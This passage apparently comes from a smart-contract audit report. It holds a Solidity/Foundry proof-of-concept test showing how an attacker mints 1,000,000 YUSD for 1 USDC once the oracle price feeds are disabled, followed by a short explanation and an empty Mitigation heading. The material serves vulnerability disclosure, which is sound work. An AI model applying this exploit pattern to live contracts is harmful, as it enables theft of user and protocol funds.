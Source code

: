 ```solidity
            assets,
            heartbeats,
            custodians,
            admin
        );
    }

    function testUnlimitedMint() public {
        // 1 USDC to attacker, and attacker approves
        USDC.mint(attacker, 1 * 10**USDC.decimals());
        vm.prank(attacker);
        USDC.approve(address(minting), 1 * 10**USDC.decimals());

        // Craft oversized mint order
        OrderLib.Order memory order = OrderLib.Order({
            orderType:             OrderLib.OrderType.MINT,
            userWallet:            attacker,
            collateralAsset:       address(USDC),
            collateralAmount:      1 * 10**USDC.decimals(),            // deposit 1 USDC
            yusdAmount:            1_000_000 * 10**YUSD.decimals(),     // request 1,000,000 YUSD
            slippageAdjustedAmount: 1 * 10**(YUSD.decimals() - 1),     // 0.1 YUSD floor
            expiry:                block.timestamp + 1 hours,
            nonce:                 42,
            additionalData:        ""
        });

        // Sign using private key #1 (vm.addr(1))
        bytes32 digest = OrderLib.hashOrder(order, minting.getDomainSeparator());
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, digest);
        bytes memory sig = abi.encodePacked(r, s, v);

        // Execute mint
        vm.prank(attacker);
        minting.mint(order, sig);

        // Attacker receives full 1,000,000 YUSD for 1 USDC
        assertEq(YUSD.balanceOf(attacker), order.yusdAmount);
    }
}
```

**Explanation:**

* **Feeds disabled at deployment** by passing `address(0)` for both the Chainlink registry and AegisOracle.
* `_getAssetUSDPriceChainlink` then returns `(0,0)`, causing `_calculateMinYUSDAmount` to simply return the attacker’s signed `yusdAmount`.
* The attacker deposits **1 USDC** but successfully mints **1,000,000 YUSD**, demonstrating the critical vulnerability.


### Mitigation

